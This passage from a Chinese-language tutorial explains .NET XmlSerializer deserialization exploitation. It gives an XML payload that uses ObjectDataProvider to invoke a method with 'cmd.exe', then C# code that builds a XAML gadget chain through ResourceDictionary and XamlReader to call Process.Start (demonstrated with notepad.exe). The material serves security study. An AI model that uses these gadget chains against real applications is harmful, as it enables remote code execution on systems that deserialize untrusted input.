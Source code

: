 >data.xml

```

<?xml version="1.0" encoding="utf-8"?>
<ExpandedWrapperOfMyClasssObjectDataProvider xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <ProjectedProperty0>
    <ObjectInstance xsi:type="MyClasss" />
    <MethodName>PullFile</MethodName>
    <MethodParameters>
      <anyType xsi:type="xsd:string">cmd.exe</anyType>
    </MethodParameters>
  </ProjectedProperty0>
</ExpandedWrapperOfMyClasssObjectDataProvider>

```

反序列化触发：

![](./img/7.7.png)

至此我们已经可以使用`ObjectDataProvider` 调用引用类文件的方法了。但是`MyClasss`类也是我们自己设计的，在实际环境中可能还是不存在这种理想化模型，由于`ObjectDataProvider`可以调用`Process.Start`，但是不能直接序列化，所以我们需要找到一个途径来间接调用`Process.Start`。

![](./img/7.8.png)


## 2.1 XamlReader

`XamlReader`他有一个方法`Parse(String)` 是传入一个字符串，返回根对象,那么我们用`ObjectDataProvider`构造传参一个`XAML`,同时XAML的`ObjectDataProvider`调用`Process.Start`那么利用链就成功了。

## 2.2 ResourceDictionary

要生成XAML还需要引用[ResourceDictionary](https://docs.microsoft.com/zh-cn/dotnet/api/system.windows.resourcedictionary)类。


## 2.3 生成payload

>code 2.3 

```

public static void xaml_data()
{
    ObjectDataProvider objectDataProvider = new ObjectDataProvider();
    objectDataProvider.ObjectType = typeof(System.Diagnostics.Process);
    objectDataProvider.MethodParameters.Add("notepad.exe");
    objectDataProvider.MethodName = "Start";
    ResourceDictionary R_xaml = new ResourceDictionary();
    R_xaml.Add("test", objectDataProvider);
    string xaml_data;
    using (MemoryStream stream = new MemoryStream())
    {

        XamlServices.Save(stream, objectDataProvider);
        stream.Position = 0;
        StreamReader reader = new StreamReader(stream);
        xaml_data = reader.ReadToEnd();
        stream.Close();
    }

    Console.WriteLine(xaml_data);
}
```